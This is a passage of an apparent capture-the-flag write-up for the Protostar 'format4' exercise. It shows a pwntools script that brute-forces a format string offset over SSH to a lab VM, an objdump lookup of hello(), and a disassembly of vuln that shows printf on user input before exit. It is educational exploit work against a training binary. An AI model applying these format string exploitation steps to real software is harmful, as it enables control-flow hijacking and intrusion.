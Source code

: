 

```python

# bruteforce until we found our pattern ("AAAA") on the stack
def find_pos():
  
    for i in range(10): 
        s = ssh(host="192.168.160.128" , user="user", password="user")
        format4 = s.run(["/opt/protostar/bin/format4"])   
        payload = 'AAAA' + "%{}$x".format(i) # payload: AAAA%i$x   print the element on the stack at position i in hex
        format4.sendline(payload)
        output=str(format4.recvline())
        if "41414141" in output: # if we found our pattern print the position  of it
            print("Found position : ",i)
            control_pos=i
            format4.close()
            return
        format4.close()


 output: 
 ....
[+] Opening new channel: ['/opt/protostar/bin/format4']: Done
Found position :  4
[*] Closed SSH channel with 192.168.160.128


```

Ok at the 4th position we control "buffer".

Now let's find the address of hello()

# Address of hello():

```bash
user@protostar:~$ objdump -D /opt/protostar/bin/format4 | grep -i hello
080484b4 <hello>:
```

Finally let's find where we jump after the called to exit() once in the plt.



# Address of exit():

```asm

(gdb) disassemble vuln 
Dump of assembler code for function vuln:
0x080484d2 <vuln+0>:	push   ebp
0x080484d3 <vuln+1>:	mov    ebp,esp
0x080484d5 <vuln+3>:	sub    esp,0x218
0x080484db <vuln+9>:	mov    eax,ds:0x8049730
0x080484e0 <vuln+14>:	mov    DWORD PTR [esp+0x8],eax
0x080484e4 <vuln+18>:	mov    DWORD PTR [esp+0x4],0x200
0x080484ec <vuln+26>:	lea    eax,[ebp-0x208]
0x080484f2 <vuln+32>:	mov    DWORD PTR [esp],eax
0x080484f5 <vuln+35>:	call   0x804839c <fgets@plt>
0x080484fa <vuln+40>:	lea    eax,[ebp-0x208]
0x08048500 <vuln+46>:	mov    DWORD PTR [esp],eax
0x08048503 <vuln+49>:	call   0x80483cc <printf@plt>
0x08048508 <vuln+54>:	mov    DWORD PTR [esp],0x1
0x0804850f <vuln+61>:	call   0x80483ec <exit@plt>
```